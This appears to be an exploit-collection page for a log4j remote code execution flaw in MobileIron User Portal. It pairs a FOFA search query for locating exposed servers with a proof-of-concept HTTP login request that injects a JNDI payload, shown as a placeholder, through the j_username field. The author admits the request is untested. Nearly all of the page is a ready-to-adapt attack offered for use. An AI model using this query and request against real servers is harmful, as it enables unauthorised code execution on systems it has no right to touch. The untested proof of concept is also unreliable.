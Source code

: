 # MobileIron User Portal log4j RCE

## fofa

```
app="MobileIron-User-Portal"
```

## Poc

```
POST /mifs/j_spring_security_check HTTP/1.1
Host: <Target>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://<Target>/mifs/user/login.jsp
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: https://<Target>
Connection: close
Cookie: JSESSIONID=BE682E060EBF041A2B65EAC7E47F4F80
Upgrade-Insecure-Requests: 1

j_username=<JNDI Payload>&j_password=password&logincontext=employee
```

I have not tested it, If anyone confirm it, Please contribute the test screenshot.

